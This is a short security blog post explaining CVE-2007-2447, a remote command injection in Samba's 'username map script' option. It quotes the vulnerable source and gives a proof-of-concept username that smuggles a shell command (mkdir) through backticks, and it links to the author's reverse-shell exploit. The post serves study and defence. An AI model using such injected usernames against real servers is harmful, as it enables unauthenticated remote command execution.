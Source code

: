 ```yaml
---
title: "CVE-2007-2447 - Samba usermap script"
date: 2018-08-03T22:00:06+01:00
draft: false
index: true
tags: ["cve", "samba", "rce"]
categories: ["exploit", "security"]
comments: true
highlight: true
---
```


Samba 3.0.0 - 3.0.25rc3 are subject for Remote Command Injection Vulnerability (CVE-2007-2447), allows remote attackers to execute arbitrary commands by specifying a username containing shell meta characters.

<!--more-->
### TL;DR
The root cause is passing unfiltered user input provided via MS-RPC
calls to /bin/sh when invoking non-default ``"username map script"`` configuration option in `smb.conf`, so no authentication is needed to exploit this vulnerability.

### Source

> `./source/lib/username.c`

```
/* first try the username map script */

if ( *cmd ) {
        char **qlines;
        pstring command;
        int numlines, ret, fd;

        pstr_sprintf( command, "%s \"%s\"", cmd, user );

        DEBUG(10,("Running [%s]\n", command));
        ret = smbrun(command, &fd);
        DEBUGADD(10,("returned [%d]\n", ret));

        if ( ret != 0 ) {
                if (fd != -1)
                        close(fd);
                return False;
        }

```
The ***smbrun()*** function is responsible for executing system commands!

> `./source/lib/smbrun.c`

```

#ifndef __INSURE__
        /* close all other file descriptors, leaving only 0, 1 and 2. 0 and
           2 point to /dev/null from the startup code */
        {
        int fd;
        for (fd=3;fd<256;fd++) close(fd);
        }
#endif

        execl("/bin/sh","sh","-c",cmd,NULL);  

        /* not reached */
        exit(82);
        return 1;
}

```
### PoC
To exploit this vulnerability, all you need to do is to change the username for authentication to :

> ``` username = "/=`nohup mkdir /tmp/foo`" ```

In this example we just execute a **mkdir** command to create a folder in the /tmp directory.
</br>
For educational/research purposes I create a python script to exploit this vulnerability and gain a reverse shell.
</br>
[https://github.com/amriunix/CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)
### Screenshot
{{< figure src="/img/cve-2007-2447-samba-usermap-script/poc.png" width="100%" >}}
</br>
